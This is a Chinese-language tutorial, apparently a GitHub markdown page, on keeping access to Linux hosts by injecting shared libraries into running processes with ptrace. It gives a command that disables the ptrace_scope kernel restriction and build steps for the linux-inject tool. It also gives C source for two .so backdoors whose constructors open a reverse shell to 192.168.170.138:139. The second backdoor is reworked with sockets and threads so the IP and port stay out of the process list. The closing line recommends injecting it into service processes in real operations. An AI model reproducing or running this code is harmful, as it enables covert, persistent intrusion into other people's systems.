





## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```


在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。





确认编译是否正常：


获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```




编译成so文件成功后的测试效果：


在Kali Linux这边获得了bash shell：


此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。


但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：



查看到IP与端口：


再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：




Kali Linux获得bash shell：



在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


